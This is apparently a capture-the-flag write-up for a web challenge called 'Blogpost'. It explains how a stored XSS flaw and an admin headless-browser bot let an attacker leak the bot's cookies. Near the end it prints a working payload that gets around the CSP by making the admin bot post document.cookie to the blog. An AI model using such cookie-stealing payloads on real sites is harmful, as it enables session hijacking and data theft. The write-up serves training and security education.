 ```yaml
---
layout: default
title: Blogpost
permalink: /:path/
parent: Web
nav_order: 1
---
```

# Blogpost

> Points: 725 [?]

## Description

> Jaga created an internal social media platform for the company. Can you leak anyone's information?  
> File: `web_blogpost.zip`

## Solution

### Understanding the application's features

![](2022-12-06-16-02-35.png)

Upon browsing to the URL, we see a navigation bar with the `Blog` and `Login` button. Clicking on either of them brings us to the login page at `/login`:

![](2022-12-06-16-03-51.png)

Since we do not have an account, we can go ahead and register a new account.

![](2022-12-06-16-04-51.png)

After logging in, we are brought to the blog page at `/blog`. From here, we can click on `Create Post` to create a new blog post on the blog.

![](2022-12-06-16-06-02.png)

After clicking on the `Create` button, we can now see our new post on the blog page at `/blog`.

![](2022-12-06-16-06-43.png)

One thing to observe was that posts from all users were being displayed together on the blog page, such as the first post created by the `admin` user. This meant that other users could view my own blog posts. Perhaps we could do something XSS-related?

### Stored XSS Vulnerability

![](2022-12-06-16-17-32.png)

After creating a new post with a basic XSS payload as the content and browsing to the blog page, we see the payload triggering the alert box.

![](2022-12-06-16-18-19.png)

It seems that we found the stored XSS vulnerability in this application. To see how we can exploit this vulnerability to get the flag from the application, we will need to analyse the application's source code and identity where the flag is being stored at.

### Analysing the source code

```bash
$ tree web_blogpost                     
web_blogpost
├── config
│   └── supervisord.conf
├── Dockerfile
├── docker_run.sh
└── src
    └── app
        ├── bot.js
        ├── database.js
        ├── helpers
        │   └── JWTHelper.js
        ├── index.js
        ├── middleware
        │   └── AuthMiddleware.js
        ├── package.json
        ├── package-lock.json
        ├── routes
        │   └── index.js
        ├── static
        │   ├── forms.js
        │   ├── images
        │   │   ├── default.png
        │   │   └── jagasuper.png
        │   ├── main.css
        │   └── theme.js
        └── templates
            ├── blog.html
            ├── index.html
            ├── login.html
            ├── post.html
            ├── profile.html
            ├── register.html
            └── settings.html

9 directories, 23 files
```

Immediately we see a `bot.js`, which suggests that there might be an automated headless browser being used to visit the application.

`src/app/bot.js`:

```javascript
import puppeteer from 'puppeteer';
import {sign, verify} from './helpers/JWTHelper.js';

const browser_options = {
	headless: true,
	args: [
		'--no-sandbox',
		'--disable-background-networking',
		'--disable-default-apps',
		'--disable-extensions',
		'--disable-gpu',
		'--disable-sync',
		'--disable-translate',
		'--hide-scrollbars',
		'--metrics-recording-only',
		'--mute-audio',
		'--no-first-run',
		'--safebrowsing-disable-auto-update',
		'--js-flags=--noexpose_wasm,--jitless'
	]
};

export const viewPosts = async () => {
    try {
		const browser = await puppeteer.launch(browser_options);
		let context = await browser.createIncognitoBrowserContext();
		let page = await context.newPage();

		let token = await sign({ username: 'admin' });
		await page.setCookie({
			name: "session",
			'value': token,
			domain: "127.0.0.1",
		});
		await page.setCookie({
			name: "flag",
			'value': "STF{FAKE_FLAG}",
			domain: "127.0.0.1",
		});
		await page.goto('http://127.0.0.1:1337/blog', {
			waitUntil: 'networkidle2',
			timeout: 8000
		});
		await browser.close();
    } catch(e) {
        console.log(e);
    }
};
```

The `viewPosts` function seems to access the application at `/blog` as the `admin` user, while having a `flag` cookie being set to the flag. Using the stored XSS vulnerability found earlier, we can trick the headless browser into executing our specially crafted payload and send us their cookies.

A common trick to stealing cookies via XSS is to insert a new image HTML tag that will render an image from the attacker's web server URL with the cookie appended to it. However, due to the Content Security Policy (CSP) of the application, we are not able to do so.

`src/app/index.js`:

```javascript
...
app.use(function (req, res, next) {
	res.setHeader(
	  'Content-Security-Policy',
	  "default-src 'self'; script-src 'unsafe-inline' 'self' https://cdnjs.cloudflare.com; style-src-elem 'self' https://fonts.googleapis.com; font-src 'self' https://fonts.gstatic.com; connect-src 'self';"
	);
	next();
  });
...
```

Since this application allows users to create new posts, we could instead force the headless browser to create a new blog post containing their cookies. And since all blog posts are visible to all users, we will be able to view this new blog post!

### Stealing the flag from the admin user

To know what parameters are needed to create a new blog post, we can take a look at the following:

`src/app/routes/index.js`:
```javascript
...
    router.post('/post', auth, async (req, res)=>{
        const { title, content } = req.body;
        if (title && content) {
            db.addPost(title, req.user.username, content)
                .then(async () => {
                    if (req.user.username != 'admin') { 
                        await viewPosts();
                    }
                    res.status(200).send(response('Success'))})
                .catch(() => {console.log('oof');res.status(500).send(response('Error'))});
        }
    });
...
```

All we need is to send a request with the `title` and `content` parameters set. Therefore, we can create a new blog post with an arbitrary title and the contents set to the following:

```html
<script>
fetch("/post", {
    method: "POST",
    headers: {
        'Content-Type': 'application/json'
    },
    body: JSON.stringify({
        title: "get flag here",
        content: document.cookie
    })
})
</script>
```

After clicking on `Create` and browsing to the blog page, we see a new post by the `admin` user, with the flag printed nicely.

![](2022-12-06-16-48-33.png)

## Flag
`STF{FAKE_FLAG}`

